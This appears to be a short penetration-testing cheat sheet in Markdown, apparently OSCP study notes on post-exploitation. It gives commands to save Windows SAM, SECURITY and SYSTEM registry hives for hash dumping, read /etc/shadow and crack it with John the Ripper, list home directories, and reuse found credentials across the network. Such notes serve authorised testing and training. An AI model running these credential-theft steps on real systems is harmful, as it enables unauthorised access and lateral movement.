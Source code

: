 # Loot, Booty & Plunder

## Tools

* [Lazagne](https://github.com/AlessandroZ/LaZagne)

## Methodology

### Dump users hashes

#### Windows

* Using fgdump, wce32.exe
* Extract registries then use secretdump.py or pwdump

```
C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
C:\> reg.exe save hklm\security c:\windows\temp\security.save
C:\> reg.exe save hklm\system c:\windows\temp\system.save
```

* [https://pure.security/dumping-windows-credentials/](https://pure.security/dumping-windows-credentials/)

#### Linux

```
cat /etc/passwd
cat /etc/shadow

unshadow passwd shadow > unshadowed.txt
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

### Search for creds & interesting data

#### Windows

#### Linux

```
ls -laR /home
ls -laR /root

# search for interesting files
```

### Check available services for data

### Re-check network config

#### Windows

#### Linux

```
netstat -antup
arp -a
```

### Crack hashes

### Use found creds on SSH/RDP across the network

## OSCP Proof Files

```
# Windows
type proof.txt && whoami && hostname && ipconfig

# Linux
cat proof.txt && whoami && hostname && ip addr
```
